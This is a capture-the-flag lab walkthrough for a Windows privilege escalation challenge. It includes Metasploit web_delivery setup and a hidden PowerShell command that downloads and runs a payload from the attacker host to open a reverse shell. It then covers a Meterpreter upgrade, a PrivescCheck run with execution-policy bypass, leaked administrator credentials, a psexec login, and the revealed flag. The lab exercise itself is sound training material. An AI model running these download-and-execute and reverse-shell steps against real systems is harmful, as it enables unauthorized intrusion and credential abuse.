







# 🔬Windows Privilege Escalation

> 🔬 [Windows: PrivescCheck](https://attackdefense.com/challengedetailsnoauth?cid=2404)
>
> - Target IP: `10.2.29.53`
> - Usage of the  **[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) script**
>   - *already present on the Victim Machine*

## Enumeration & Exploitation

```bash
nmap -sV 10.2.29.53
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds?
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 10.2.29.53
setg RHOST 10.2.29.53

search web_delivery
use exploit/multi/script/web_delivery
info
# Description:
#   This module quickly fires up a web server that serves a payload. The 
#   provided command which will allow for a payload to download and 
#   execute.
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST eth1
exploit
```

- Copy the PowerShell code and run it on the target machine using `cmd`

```bash
powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\P4MPrq7y.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.24.2:8080/y3MMtnMlRkQ81pA', $z); invoke-item $z
```

- Back to the Attacker machine, *Command shell session opened*



```bash
sessions 1
whoami
# Unprivileged user "student"
```



```bash
# Upgrade to a Meterpreter session
background
search shell_to
use post/multi/manage/shell_to_meterpreter
set LHOST eth1
set SESSION 1
show advanced
set WIN_TRANSFER VBS
options
# check the LPORT is not in conflict with the Session 1
run
sessions 2
```



```bash
ps
migrate 5048
get privs
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
```



## Privilege Escalation

```bash
cd C:\\Users\\student\\Desktop\\PrivescCheck
shell
dir
```

- Run [**`PrivescCheck`**](https://github.com/itm4n/PrivescCheck)

```bash
# Basic mode
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# Extended Mode + Export Txt Report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
```

```bash
exit
meterpreter > download PrivescCheck_ATTACKDEFENSE.txt

root@attackdefense:~# featherpad PrivescCheck_ATTACKDEFENSE.txt
```





> 📌 `administrator`:`hello_123321`

### Administrator Login

- Use the `administrator` user to run a **privileged `cmd`**, trying `SMB` legitimate authentication

```bash
psexec.py administrator@10.2.29.53 cmd.exe
```

```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```

- This can be done with the `exploit/windows/smb/psexec` Metasploit module too.


<details>
<summary>Reveal Flag: 🚩</summary>


`2b070a650a92129c2462deae7707b0c5`



</details>

------

